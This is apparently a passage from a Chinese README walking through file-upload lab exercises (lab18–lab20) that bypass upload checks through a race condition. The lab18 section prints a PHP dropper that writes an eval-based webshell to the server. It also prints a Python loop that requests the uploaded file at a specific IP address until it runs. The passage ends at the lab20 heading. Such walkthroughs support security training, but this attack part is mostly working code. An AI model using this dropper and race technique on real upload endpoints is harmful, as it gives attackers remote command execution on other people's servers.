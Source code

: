 ```php

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

### lab18

18到20是条件竞争

可以通过条件竞争进行上传绕过
先上传一个WebShell脚本1.php，1.php的内容是生成一个新的WebShell脚本shell.php，1.php代码如下：

```php
<?php
　　fputs(fopen('../shell.php','w'),'<?php @eval($_POST['cmd'])?>');
?>
```

当1.php上传成功之后，客户端立即访问1.php，则会在服务器当前目录下自动生成shell.php，这时攻击者就完成了通过时间差上传webshell。

```python
import requests
url = "http://8.142.44.97:1111/upload/1.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

### lab19

也是条件竞争，路径有点问题，改一下：

![image-20220117223401220](README/image-20220117223401220.png)

和lab18一样

### lab20
